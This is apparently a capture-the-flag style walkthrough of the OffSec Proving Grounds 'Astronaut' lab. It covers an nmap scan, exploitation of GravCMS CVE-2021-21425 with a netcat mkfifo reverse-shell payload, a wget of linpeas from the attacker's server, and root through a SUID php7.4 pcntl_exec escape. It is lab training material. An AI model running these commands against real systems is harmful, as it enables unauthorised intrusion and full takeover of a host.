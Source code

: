 ```yaml
---
title: Astronaut- Easy - Linux - PG Practice
date: 2024-06-10
tags:
  - pg-practice
  - offsec
  - oscp-prep
  - linux
  - ospg
  - php
draft: false
---
```

# Astronaut - Easy - Linux - PG Practice

# **Scanning**

My basic scan runs the following command
```bash
nmap -sC -T5 -Pn -p- --min-rate=10000 $IP
```

```bash
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Astronaut]
└─$ basic 192.168.162.12 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-10 08:34 EDT
Warning: 192.168.162.12 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.162.12
Host is up (0.18s latency).
Not shown: 37816 filtered tcp ports (no-response), 27717 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 984e5de1e697296fd9e0d482a8f64f3f (RSA)
|   256 5723571ffd7706be256661146dae5e98 (ECDSA)
|_  256 c79baad5a6333591341eefcf61a8301c (ED25519)
80/tcp open  http
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_

Nmap done: 1 IP address (1 host up) scanned in 38.03 seconds
```

	`GravCMS` is being used at Port 80

A little googling about GravCMS exploit gets us to the following exploit
[GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)](https://github.com/CsEnox/CVE-2021-21425)
# **Exploitation**

We simply clone the repo at our local machine
```bash
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Astronaut]
└─$ git clone https://github.com/CsEnox/CVE-2021-21425.git
```

The exploit takes two parameters as inputs
```bash
┌──(kali㉿kali)-[~/…/Easy/Linux/Astronaut/CVE-2021-21425]
└─$ python3 exploit.py                                                              
usage: exploit.py [-h] -c C -t T
exploit.py: error: the following arguments are required: -c, -t
```

Where `-c` is the command you want to run and `-it` is target you want to exploit.

Our final command becomes
```bash
┌──(kali㉿kali)-[~/…/Easy/Linux/Astronaut/CVE-2021-21425]
└─$ python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $YOURIP $YOURPORT >/tmp/f' -t http://192.168.162.12/grav-admin

[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
Exploit completed
```

Here the revshell was built using [revshells.com](revshells.com)

By listening on a port using `nc -lnvp $port` we simply catch the connection with `www-data` user.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2222
listening on [any] 2222 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.162.12] 60686
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
# **Privilege Escalation**

We stabilize the shell using the following python command
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we get a proper interactive shell
```python
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gravity:~/html/grav-admin$ whoami
whoami
www-data
```

For privilege escalation, I like to use `linpeas.sh` since it offers a lot of information in a single script. I use `wget` to download the script from my local machine to `/tmp` directory on `www-data`. You can run a local server using `python3 -m http.server` in the directory containing the linpeas file.

```python
www-data@gravity:/tmp$ wget http://IP:8000/linpeas.sh
wget http://IP:8000/linpeas.sh
--2024-06-10 12:45:40--  http://IP:8000/linpeas.sh
Connecting to IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847924 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 828.05K   241KB/s    in 3.4s    

2024-06-10 12:45:44 (241 KB/s) - ‘linpeas.sh’ saved [847924/847924]
```

Now giving it `+x` permissions and running it.
```python
www-data@gravity:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@gravity:/tmp$ ./linpeas.sh
./linpeas.sh
```

Running it showed an interesting juicy info in the `SUID` data.
```python
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

PHP 7.4 is a vulnerable SUID which can be exploited for `root`. Using [GTFObins](https://gtfobins.github.io/gtfobins/php/) we get the right exploit for our root `hehe`

```php
CMD="/bin/sh" 
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Running these commands gives us an easy root
```python
www-data@gravity:/tmp$ CMD="/bin/sh"
CMD="/bin/sh"
www-data@gravity:/tmp$ php -r "pcntl_exec('/bin/sh', ['-p']);"
php -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
flag1.txt  proof.txt  snap
# cat proof.txt
cat proof.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

This was easy ngl.